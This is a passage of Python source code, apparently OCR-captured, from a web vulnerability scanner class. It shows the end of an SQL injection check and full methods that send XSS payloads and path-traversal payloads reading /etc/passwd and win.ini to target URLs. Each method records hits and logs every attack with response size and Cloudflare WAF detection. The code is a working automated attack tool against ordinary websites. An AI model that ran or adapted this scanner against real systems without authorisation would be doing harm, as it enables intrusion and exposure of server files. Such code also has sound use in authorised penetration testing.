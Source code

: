                 print(f"[!] SQL Injection found on {url}!")
                self.vulnerabilities.append({"type": "SQL Injection", "url": url, "details": result.stdout})
                success = 1
            if "WAF" in result.stdout:
                waf_detected = 1
            http_code = 200
            response_size = len(result.stdout)
        except:
            pass
        self.log_attack(url, "SQL Injection", success, payload, http_code, response_size, waf_detected)
        return success == 1

    def test_xss(self, url):
        payloads = [
            "<script>alert('XSS')</script>",
            "';alert('XSS');//",
            "<img src=x onerror=alert('XSS')>"
        ]
        print(f"[*] Testing XSS on {url}...")
        for payload in payloads:
            success = 0
            http_code = 0
            response_size = 0
            waf_detected = 0
            try:
                test_url = f"{url}?q={payload}" if "?" in url else f"{url}?test={payload}"
                response = self.session.get(test_url, timeout=10)
                if payload in response.text:
                    print(f"[!] XSS found on {url} with payload: {payload}")
                    self.vulnerabilities.append({"type": "XSS", "url": url, "payload": payload})
                    success = 1
                http_code = response.status_code
                response_size = len(response.text)
                waf_detected = 1 if "cloudflare" in response.text.lower() else 0
            except:
                continue
            self.log_attack(url, "XSS", success, payload, http_code, response_size, waf_detected)
            if success:
                return True
        return False

    def test_lfi(self, url):
        payloads = ["../../etc/passwd", "../../windows/win.ini"]
        print(f"[*] Testing LFI on {url}...")
        for payload in payloads:
            success = 0
            http_code = 0
            response_size = 0
            waf_detected = 0
            try:
                test_url = f"{url}?file={payload}" if "?" in url else f"{url}?file={payload}"
                response = self.session.get(test_url, timeout=10)
                if "root:x" in response.text or "[extensions]" in response.text:
                    print(f"[!] LFI found on {url} with payload: {payload}")
                    self.vulnerabilities.append({"type": "LFI", "url": url, "payload": payload})
                    success = 1
                http_code = response.status_code
                response_size = len(response.text)
            except:
                continue
            self.log_attack(url, "LFI", success, payload, http_code, response_size, waf_detected)
            if success:
                return True
        return False